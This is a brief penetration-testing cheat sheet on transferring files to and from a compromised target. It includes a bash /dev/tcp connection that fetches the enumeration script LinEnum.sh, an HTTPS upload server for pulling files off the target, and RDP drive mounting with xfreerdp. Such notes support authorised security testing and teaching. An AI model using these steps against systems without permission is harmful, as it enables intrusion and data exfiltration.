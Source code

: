 
## Download
### Native /dev/tcp

It is possible to perform http calls using the native /dev/tcp:

1. Conncect: `exec 3<>/dev/tcp/<ip>/<port>`
2. Request: `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`
3. Print: `cat <&3`

## Upload

### Upload HTTPs python server

We can create a python upload server with a certificate to upload files from our target:

```bash
$ pip install uploadserver
$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server' # create certificate
$ python3 -m uploadserver 443 --server-certificate ~/server.pem
```

From the target, we need to pass the flag `--insecure` with cURL


### Non-python server

- Ruby: `ruby run -ehttpd . -p<port>`
- PHP: `php -S 0.0.0.0:<port>`

## RDP

### Mount file with RDP

`xfreerdp /v:<ip> /d:<host> /u:<username> /p:<password> /drive:linux,<folder-path>`

Then on the windows machine, go to Network -> tsclient